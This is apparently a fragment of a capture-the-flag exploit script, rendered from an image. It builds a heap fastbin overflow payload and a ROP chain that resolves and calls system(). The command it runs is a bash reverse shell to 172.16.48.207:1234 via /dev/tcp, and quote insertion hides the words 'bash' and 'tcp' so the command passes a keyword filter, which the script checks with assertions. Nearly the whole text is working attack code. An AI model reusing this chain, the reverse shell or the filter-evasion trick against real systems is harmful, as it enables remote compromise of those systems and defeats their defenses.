 ```plain
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)


    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
    gdb-peda$ x/20gx 0x676020-8+2
    0x67601a:       0x51e8000000000000      0x51f0000000000045
    '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))


    '''
    gdb-peda$ x/5i 0x7fea5aabd050
   0x7fea5aabd050 <munmap>:     mov    eax,0xb
   0x7fea5aabd055 <munmap+5>:   syscall
   0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
   0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
   0x7fea5aabd05f <munmap+15>:  ret
    '''
    '''
    0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
    0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
    0x0000000000406862 : pop rsi ; ret
    0x0000000000404cb7 : pop rdi ; ret
    0x00000000004165af : add rax, rsi ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
```